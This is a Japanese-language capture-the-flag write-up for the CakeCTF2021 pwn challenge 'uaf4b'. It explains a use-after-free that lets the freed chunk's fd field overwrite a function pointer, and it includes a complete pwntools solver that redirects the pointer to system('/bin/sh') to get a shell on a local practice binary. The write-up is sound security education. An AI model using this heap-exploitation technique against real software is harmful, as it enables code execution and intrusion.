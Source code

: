 ```yaml
---
title: "uaf4b - CakeCTF2021"
date: 2022-05-02T08:45:31+09:00
tags: ["pwn", "CakeCTF2021", "ptr-yudai's chall"]
draft: false
---
```


[uaf4b - CakeCTF2021(My solver)](https://github.com/yu1hpa/ctf-writeup/tree/master/2021/CakeCTF/uaf4b)

[uaf4b - CakeCTF2021(Official GitHub)](https://github.com/theoremoon/cakectf-2021-public/tree/master/pwn/uaf4b)

# 方針
Use after Free によって関数ポインタを`system`関数で書き換える。

### CAWSAY 構造体について
重要なのは、`main.c`の47〜50行目の構造体である。

freed chunkでは、`fn_dialogue`が`fd`、`message`が`bk`に割り当てられる。
```c
typedef struct {
  void (*fn_dialogue)(char*);
  char *message;
} COWSAY;
```

また、`main.c`の167〜171行目で、
`cowsay->fn_dialogue(cowsay->message);`が実行されることに留意しておく。
```
case 1:
  /* Use cowsay */
  printf("[+] You're trying to call 0x%016lx\n", (addr)cowsay->fn_dialogue);
  cowsay->fn_dialogue(cowsay->message);
  break;
```

### malloced chunk
実際にmallocされたときのHeap領域は次の図のようになっている。

[![mallocedchunk](https://i.gyazo.com/f3ef9ad8fe8cc16b6db4e9b59e3347d3.png)](https://gyazo.com/f3ef9ad8fe8cc16b6db4e9b59e3347d3)

### freed chunk
次に、freeすると、次の図のようになる。

[![freedchunk](https://i.gyazo.com/dcb349b359e86031b4d3575a85de9b8e.png)](https://gyazo.com/dcb349b359e86031b4d3575a85de9b8e)

### system("/bin/sh")を呼び出す
この2つの図を見るとわかるように、関数ポインタ`fn_dialogue`の位置に`fd`が割り当てられている。
つまり、`fn_dialogue`を`system`に、`COWSAY->message = /bin/sh`にすれば、
`system("/bin/sh")`が呼び出される。

# Solver
```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process("./chall")

io.recvuntil("<system> = ")
system_addr = int(io.recvline(), 16)

io.sendlineafter("> ", "2")
io.sendlineafter("Message: ", "/bin/sh")

io.sendlineafter("> ", "4")
io.recvuntil("cowsay->message")
message_addr = int(io.recvuntil("|")[:16], 16)
print(f'{message_addr:x}')

io.sendlineafter("> ", "3") # free
io.sendlineafter("> ", "2")     # fd ↓               # bk ↓
io.sendlineafter("Message: ", p64(system_addr) + p64(message_addr)) # system(/bin/sh)

io.sendlineafter("> ", "4")
io.sendlineafter("> ", "1")

io.interactive()
````

### 最終的なHeap領域

[![Image from Gyazo](https://i.gyazo.com/ea4b3c9b6166f1d35070ebe0823a9922.png)](https://gyazo.com/ea4b3c9b6166f1d35070ebe0823a9922)


